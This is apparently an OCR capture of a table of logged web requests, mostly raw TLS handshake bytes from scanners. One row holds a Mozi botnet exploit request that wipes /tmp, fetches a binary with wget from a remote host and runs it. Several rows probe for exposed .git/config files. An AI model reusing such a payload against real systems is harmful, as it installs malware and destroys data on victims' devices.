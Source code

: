| 192 |                     1 | \x16\x03\x01\x00\xCA\x01\x00\x00\xC6\x03\x03M\xA2\x13\x0BK\x055\xC8\x954\xE1\xB68rx\x04\x16\x12VC\x12\xED \x81A\xEB\x8C\xDC\x91\x18\xB0W\x00\x00h\xCC\x14\xCC\x13\xC0/\xC0+\xC00\xC0,\xC0\x11\xC0\x07\xC0'\xC0#\xC0\x13\xC0\x09\xC0(\xC0$\xC0\x14\xC0                                                                                                                                                          |
| 193 |                     1 | \x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03\xDA1c\xAC>\xED\x92\xFF\x86\x83\xE6[\x0F\xB3\x12)h\xB2#\x9E\x5C\x87\xDC\xE8\x03\xD2\xE1\x19\x94\x06\xFEm \x90zH\xC9\xF9<\x82z\x81\xCAN\xFB\xB2\x10\xD3\xF9_\xA5\x8B\xA8\x85\x1D\xF5r-\xC2\xBCi\xD0x\x04\x93\x00&\xC0+\xC0/\xC0,\xC00\xCC\xA9\xCC\xA8\xC0\x09\xC0\x13\xC0                                                                                           |
| 194 |                     1 | GET /shell?cd+/tmp;rm+-rf+*;wget+http://192.168.1.1:8088/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                                                                                                                                                                                                                                                     |
| 195 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\xF7\x9D\x00\xEB;:\xC5\xB4\x95%\xAAip\xAF\xF1\xCE\xC0\xB7\xE6\x9B-)\xDB\xE8\xAF\xA84[\xF0\xF1i\xA6\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                     |
| 196 |                     1 | GET /tools/.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                |
| 197 |                     1 | \x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                               |
| 198 |                     1 | GET /sitemap.xml HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                      |
| 199 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\xFE\xA2\x1D\x17\xD0\xCC2Wjf\x98Fu\xE7\xC0\x1E}xu\xE7a|\x83\xFD\x00\x10\x02\xB8\xF4gc\xFC\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                              |
| 200 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\xE8P\xE86\xAB?RGM\xDF~\x93T\x1BJ8Ij\xA9\xEB\xA2\x8B\xE7$\x00\xB0\xFF\x96\xD6\x823\xB8\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                 |
| 201 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03(\xA7\x1F\x13                                                                                                                                                                                                                                                                                                                                                            |
| 202 |                     1 | \x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03|\xFD~]\x910\x22\xBDZ\xE9\xF5\x8E\x8F\xD4\x98\xA6\x8AL\xD4\x8D\xD2q\xFDb\xA6\xF0g\x87\xEB\xE4\x04\xD4 .\x11\xC1\xF6q\x99\xED\x8F+my\xFF\x9C                                                                                                                                                                                                                        |
| 203 |                     1 | GET /dashboard/.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                            |
| 204 |                     1 | GET /static/content/.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                       |